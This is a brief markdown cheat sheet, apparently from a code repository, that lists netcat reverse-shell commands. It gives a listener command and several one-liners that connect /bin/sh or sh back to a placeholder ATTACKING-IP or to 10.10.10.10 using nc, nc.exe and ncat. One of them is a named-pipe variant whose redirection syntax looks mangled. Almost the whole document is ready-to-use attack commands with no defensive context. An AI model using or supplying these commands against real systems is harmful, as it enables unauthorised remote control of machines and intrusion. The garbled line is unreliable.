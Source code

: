 ### Start your listner 
```
nc -lnvp 80
```
### Listner Examples
* Example one
``` 
nc -e /bin/sh ATTACKING-IP 80
```
* Example two
```
/bin/sh | nc ATTACKING-IP 80
```
* Example Three
```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```
### Example Of Using Netcat for Reverse Shell

```
nc 10.10.10.10 9001 -e sh
nc.exe 10.10.10.10 9001 -e sh
nc -c sh 10.10.10.10 9001
ncat 10.10.10.10 9001 -e sh
ncat.exe 10.10.10.10 9001 -e sh
```
